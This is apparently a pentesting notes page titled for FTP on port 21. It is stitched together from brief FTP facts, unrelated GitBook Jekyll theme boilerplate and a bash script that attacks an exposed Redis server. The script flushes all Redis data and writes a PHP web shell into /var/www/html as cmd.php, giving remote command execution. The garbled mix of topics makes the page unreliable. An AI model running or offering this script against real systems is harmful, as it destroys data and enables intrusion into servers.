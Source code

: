 ```yaml
---
title: 🟢 21 FTP (TCP)
author: d4t4s3c
date: 2019-04-27
category: Jekyll
layout: post
---
```


# Basic Infomation

**File Transfer Protocol (FTP)** is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.
**Default Port:** `21`
If [nmap](https://nmap.org) does not get the service header, it relies on the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) database to determine what service is running on a given port.


GitBook is an amazing frontend style to present and organize contents (such as book chapters
and blogs) on Web. The typical to deploy GitBook at [Github Pages][1]
is building HTML files locally and then push to Github repository, usually to the `gh-pages`
branch. However, it's quite annoying to repeat such workload and make it hard for people do
version control via git for when there are generated HTML files to be staged in and out.

This theme takes style definition out of generated GitBook site and provided the template
for Jekyll to rendering markdown documents to HTML, thus the whole site can be deployed
to [Github Pages][1] without generating and uploading HTML bundle every time when there are
changes to the original repository.

[1]: https://pages.github.com



```bash
#!/bin/bash

rhost="192.168.1.2"   # CHANGE THIS
rport="6379"          # CHANGE THIS

redis-cli -h $rhost -p $rport flushall
sleep 0.3
echo '<?php system($_GET["cmd"]); ?>' | redis-cli -h $rhost -p $rport -x set cmd
sleep 0.3
redis-cli -h $rhost -p $rport config set dir "/var/www/html"
sleep 0.3
redis-cli -h $rhost -p $rport config set dbfilename "cmd.php"
sleep 0.3
redis-cli -h $rhost -p $rport save
sleep 0.3
exit 0
```
